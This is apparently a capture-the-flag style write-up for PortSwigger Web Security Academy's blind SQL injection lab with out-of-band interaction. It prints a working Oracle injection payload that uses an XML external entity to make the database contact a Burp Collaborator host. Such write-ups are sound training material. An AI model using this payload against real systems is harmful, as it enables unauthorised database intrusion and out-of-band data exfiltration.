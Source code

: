 # Write-up: Blind SQL injection with out-of-band interaction @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *Blind SQL injection with out-of-band interaction* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band>  
Difficulty: PRACTITIONER  
Burp Suite Professional is required to solve this lab!

## Lab description

![Lab description](img/lab-description.png)

## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In my case, the cookie contains this content
`Cookie: TrackingId=uD5bMjtaBP5WNste; session=npWR2WTlX6rdoW3hr8p71NaSzOy2QZzD`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

The first step is to create a new Burp Collaborator listener

![create collaborator](img/create_collaborator.png)

The [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) contains multiple strings to cause a DNS lookup. I don't know the database engine used, so I try all payloads given there.

Starting with Oracle, I send a request to Burp Repeater and append the given payload to the cookie value:

![Request](img/request.png)

I ensure the query remains valid by adding brackets, concatenations and quotes around the payload (`'||(<PAYLOAD>)||'`) to create this query:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://h9r49h8t93o98v0z0canusskqbw1kq.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'
```

After sending the request and refreshing the Burp Collaborator, I see several requests:

![collaborator hit](img/collaborator_result.png)

At the same time, the lab updates to

![success](img/success.png)
